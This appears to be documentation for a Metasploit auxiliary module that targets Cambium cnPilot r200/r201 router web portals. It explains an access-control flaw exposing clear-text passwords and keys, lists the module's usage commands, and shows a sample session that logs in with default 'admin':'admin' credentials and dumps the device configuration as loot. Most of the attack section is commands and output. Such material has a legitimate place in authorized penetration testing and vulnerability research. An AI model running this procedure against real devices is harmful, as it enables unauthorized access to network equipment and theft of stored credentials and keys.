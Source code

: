 This module scans for Cambium cnPilot r200/r201 management login portal(s), attempts to identify valid credentials, and dump device configuration.

The device has at least two (2) users - admin and user. Due to an access control vulnerability, it is possible for 'user' account to access full device config. All information, including passwords, and keys, is stored insecurely, in clear-text form, thus allowing unauthorized 'admin' access to any user.

## Verification Steps

1. Do: ```use auxiliary/scanner/http/cnpilot_r_web_login_loot```
2. Do: ```set RHOSTS [IP]```
3. Do: ```set RPORT [PORT]```
4. Do: ```run```

## Scenarios

  ```
msf > use auxiliary/scanner/http/cnpilot_r_web_login_loot
msf auxiliary(cnpilot_r_web_login_loot) > set rhosts 1.3.3.7
msf auxiliary(cnpilot_r_web_login_loot) > run

[*] 1.3.3.7:80   - Cambium cnPilot confirmed...
[+] 1.3.3.7:80   - Attempting to login...
[+] SUCCESSFUL LOGIN - 1.3.3.7:80 - "admin":"admin"
[*] 1.3.3.7:80 - dumping device configuration
[+] 1.3.3.7:80 - Configfile.cfg retrieved successfully!
[+] 1.3.3.7:80   - File saved in: /root/.msf4/loot/20000000000003_default_1.3.3.7_Configfile.cfg_12345.txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

  ```
